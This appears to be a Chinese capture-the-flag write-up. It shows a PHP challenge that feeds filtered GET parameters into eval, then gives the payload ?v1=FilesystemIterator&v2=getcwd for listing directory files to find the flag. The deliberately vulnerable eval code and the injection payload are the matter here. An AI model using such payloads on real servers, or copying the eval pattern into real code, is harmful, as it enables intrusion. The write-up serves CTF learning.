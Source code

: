 ```Plain Text
<?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){<!-- -->
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){<!-- -->
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){<!-- -->
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?>


```
```Plain Text
所以我们只需要再得到一个点或者路径就可以查看当前目录下的文件，得到一个/查看根目录下的文件。php中的getcwd()可以帮到我们这个忙。

getcwd()
getcwd — 取得当前工作目录
getcwd(void):string

payload:v1=FilesystemIterator&v2=getcwd
题目的话有个缺陷，如果flag所在的文件不是排在第一位的话，我们可能就没有办法得到flag。



考察：php内置类 利用 FilesystemIterator 获取指定目录下的所有文件 http://phpff.com/filesystemiterator https://www.php.net/manual/zh/class.filesystemiterator.php

getcwd()函数 获取当前工作目录 返回当前工作目录 payload: ?v1=FilesystemIterator&v2=getcwd


```
[office](xpsMGNQTvP-NtoLoQZi5l5Lc590znhKqpL96YVzYAOY.pdf)


